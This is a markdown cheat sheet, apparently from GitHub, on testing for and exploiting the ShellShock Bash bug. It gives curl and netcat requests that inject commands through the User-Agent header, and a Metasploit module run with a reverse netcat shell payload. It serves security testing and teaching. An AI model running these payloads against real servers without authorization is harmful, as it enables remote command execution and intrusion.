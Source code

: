 ShellShock, also known as the Bash Bug, refers to a security vulnerability in the Bash shell that was disclosed in September 2014. It allows attackers to execute arbitrary commands on systems using vulnerable versions of Bash. Tools related to ShellShock are typically used to exploit or test for this vulnerability.

### **ShellShock Commands and Options**

**Note:** ShellShock itself is a vulnerability and not a tool with a command-line interface. However, you can use various scripts and tools to test or exploit this vulnerability. Below are some examples and options for using ShellShock-related tools and techniques.

---

### **1. Using `curl` to Test for ShellShock**

**Description:** Send a request with a header to test if a server is vulnerable to ShellShock.

- **Command:**
  ```bash
  curl -H 'User-Agent: () { :; }; echo Vulnerable' http://target-url
  ```

- **Example:**
  ```bash
  curl -H 'User-Agent: () { :; }; echo Vulnerable' http://example.com/cgi-bin/test.cgi
  ```

- **Explanation:** This command sends a specially crafted `User-Agent` header that exploits the ShellShock vulnerability. If the server is vulnerable, it will execute the command and return the result.

---

### **2. Using `netcat` to Test for ShellShock**

**Description:** Use `netcat` to send a crafted HTTP request to test for vulnerability.

- **Command:**
  ```bash
  (echo -ne "GET /cgi-bin/test.cgi HTTP/1.1\r\nHost: target-url\r\nUser-Agent: () { :; }; echo Vulnerable\r\n\r\n") | nc target-url 80
  ```

- **Example:**
  ```bash
  (echo -ne "GET /cgi-bin/test.cgi HTTP/1.1\r\nHost: example.com\r\nUser-Agent: () { :; }; echo Vulnerable\r\n\r\n") | nc example.com 80
  ```

- **Explanation:** Sends an HTTP request with a crafted `User-Agent` header to check if the server is vulnerable.

---

### **3. Using Exploit Scripts**

**Description:** Use pre-written exploit scripts to test for ShellShock. These are often found in repositories like GitHub or Exploit-DB.

- **Command:**
  ```bash
  python shellshock_exploit.py -u http://target-url/cgi-bin/test.cgi
  ```

- **Example:**
  ```bash
  python shellshock_exploit.py -u http://example.com/cgi-bin/test.cgi
  ```

- **Explanation:** Runs a Python exploit script against the specified URL to check for ShellShock vulnerability.

---

### **4. Using Metasploit Framework**

**Description:** Metasploit has modules for exploiting ShellShock vulnerabilities.

- **Command:**
  ```bash
  msfconsole
  ```

  Inside Metasploit:
  ```bash
  use exploit/multi/http/apache_mod_cgi_bash_env
  set RHOSTS target-url
  set PAYLOAD cmd/unix/reverse_netcat
  set LHOST local-ip
  exploit
  ```

- **Example:**
  ```bash
  msfconsole
  ```

  Inside Metasploit:
  ```bash
  use exploit/multi/http/apache_mod_cgi_bash_env
  set RHOSTS example.com
  set PAYLOAD cmd/unix/reverse_netcat
  set LHOST 192.168.1.100
  exploit
  ```

- **Explanation:** Uses the Metasploit module to exploit ShellShock vulnerabilities on a target server.

---

### **5. Using ShellShock Check Tools**

**Description:** Use dedicated tools to scan for ShellShock vulnerabilities.

- **Command:**
  ```bash
  shellshock-check -u http://target-url/cgi-bin/test.cgi
  ```

- **Example:**
  ```bash
  shellshock-check -u http://example.com/cgi-bin/test.cgi
  ```

- **Explanation:** Executes a check for the ShellShock vulnerability on the specified URL.

---

### **Summary of ShellShock Testing Commands**

| **Method**                | **Command Example**                                                | **Description**                                             |
|---------------------------|--------------------------------------------------------------------|-------------------------------------------------------------|
| **Curl Test**             | `curl -H 'User-Agent: () { :; }; echo Vulnerable' http://example.com/cgi-bin/test.cgi` | Test if a server is vulnerable using a crafted `User-Agent` header. |
| **Netcat Test**           | `(echo -ne "GET /cgi-bin/test.cgi HTTP/1.1\r\nHost: example.com\r\nUser-Agent: () { :; }; echo Vulnerable\r\n\r\n") | nc example.com 80` | Test for ShellShock using `netcat` to send a crafted HTTP request. |
| **Exploit Script**        | `python shellshock_exploit.py -u http://example.com/cgi-bin/test.cgi` | Run a Python script to exploit ShellShock.                |
| **Metasploit**            | `use exploit/multi/http/apache_mod_cgi_bash_env`<br>`set RHOSTS example.com`<br>`set PAYLOAD cmd/unix/reverse_netcat`<br>`set LHOST 192.168.1.100`<br>`exploit` | Use Metasploit to exploit ShellShock vulnerabilities.       |
| **ShellShock Check Tool** | `shellshock-check -u http://example.com/cgi-bin/test.cgi`           | Use a dedicated tool to check for ShellShock vulnerability. |

> [!note]
> ShellShock is a critical vulnerability, and it's important to ensure that any testing or exploitation is done with proper authorization and for ethical purposes only.


